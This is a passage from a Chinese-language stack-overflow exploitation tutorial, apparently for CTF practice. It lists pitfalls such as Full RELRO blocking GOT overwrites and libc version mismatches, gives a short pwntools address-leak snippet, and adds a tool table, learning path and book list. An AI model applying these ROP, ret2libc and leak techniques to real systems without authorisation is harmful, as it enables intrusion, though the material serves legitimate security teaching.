#### 误区四：GOT 表已被 RELRO 保护

**症状：** 尝试 GOT 覆写时程序崩溃。

**原因：** Full RELRO 使 GOT 表只读。

**修复：** 使用 `checksec` 确认 RELRO 状态。Full RELRO 下使用 ROP 或 ret2libc 替代 GOT 覆写。

#### 误区五：远程 libc 版本与本地不同

**症状：** 本地 Exploit 成功，远程失败或崩溃。

**原因：** 不同版本的 libc 中函数偏移不同。

**修复：**
```bash
# 获取远程 libc 版本
# 方法一：泄露某个函数地址后去 https://libc.blukat.me/ 查询
# 方法二：如果能读文件，获取远程 libc
# 方法三：使用 patchelf 指定 libc
patchelf --set-interpreter /path/to/ld.so ./vuln
patchelf --replace-needed libc.so.6 /path/to/remote/libc.so.6 ./vuln
```

#### 误区六：puts 遇到 NULL 停止输出

**症状：** 泄露地址时只收到部分字节。

**原因：** `puts()` 遇到 `\x00` 停止输出。libc 地址中的 NULL 字节导致输出截断。

**修复：** 改用 `write(1, addr, 8)` 泄露固定长度，或利用 `sendafter` 精确接收已知数量的字节。

```python
# puts 泄露：注意处理 NULL 截断
p.sendline(payload)
p.recvline()  # 跳过程序自身的输出
leaked_raw = p.recvline().strip(b'\n')
leaked = u64(leaked_raw.ljust(8, b'\x00'))  # NULL 补齐

# 更可靠：使用 write 泄露固定长度
# 需要构造 ROP 链调用 write(1, got_entry, 8)
```

### 1.10 工具速查

| 工具 | 用途 | 常用命令 |
|------|------|----------|
| pwntools | Exploit 开发框架 | `from pwn import *` |
| GDB + pwndbg | 动态调试 | `gdb ./vuln` |
| GDB + gef | 动态调试（替代方案） | `gdb ./vuln` |
| checksec | 查看程序保护 | `checksec --file=./vuln` |
| ROPgadget | 搜索 ROP gadgets | `ROPgadget --binary ./vuln` |
| ropper | 搜索 ROP gadgets（更快） | `ropper --file ./vuln` |
| one_gadget | 查找 libc 中的 magic gadget | `one_gadget libc.so.6` |
| IDA Pro | 反汇编/反编译 | 商业工具 |
| Ghidra | 反汇编/反编译（免费） | `ghidra` |
| radare2 | 逆向分析框架 | `r2 ./vuln` |
| ldd | 查看动态库依赖 | `ldd ./vuln` |
| readelf | 查看 ELF 结构 | `readelf -s ./vuln` |
| objdump | 反汇编 | `objdump -d ./vuln` |
| patchelf | 修改 ELF 依赖 | `patchelf --set-rpath ...` |
| libc-database | 查找 libc 版本 | `https://libc.blukat.me/` |

### 1.11 进阶方向

掌握基本栈溢出后，以下是推荐的进阶学习路径：

1. **堆利用基础** → 学习 glibc malloc/free 的内部机制，掌握 Fastbin Attack、Unsorted Bin Attack 等技术
2. **格式化字符串** → 利用 `printf` 的 `%n` 格式符实现任意地址写
3. **内核栈溢出** → 将栈溢出技术迁移到内核空间（SMEP/SMAP 绕过）
4. **ARM/MIPS 栈溢出** → 跨架构利用（IoT 安全方向）
5. **CTF 练习平台** → [CTFHub](https://www.ctfhub.com)、[pwnable.kr](http://pwnable.kr)、[pwnable.tw](https://pwnable.tw)、[Hack The Box](https://www.hackthebox.com)

推荐书籍：

| 书籍 | 适合阶段 | 说明 |
|------|----------|------|
| 《Hacking: The Art of Exploitation》 | 入门 | 从 C 语言到网络漏洞的完整入门 |
| 《深入理解计算机系统》(CSAPP) | 基础 | 理解编译、链接、内存管理的底层机制 |
| 《Exploiting Software》 | 中级 | 深入理解软件漏洞利用原理 |
| 《The Shellcoder's Handbook》 | 中级 | 各平台 Shellcode 编写实战 |
| 《Android Internals》 | 高级 | 移动平台二进制安全 |

***
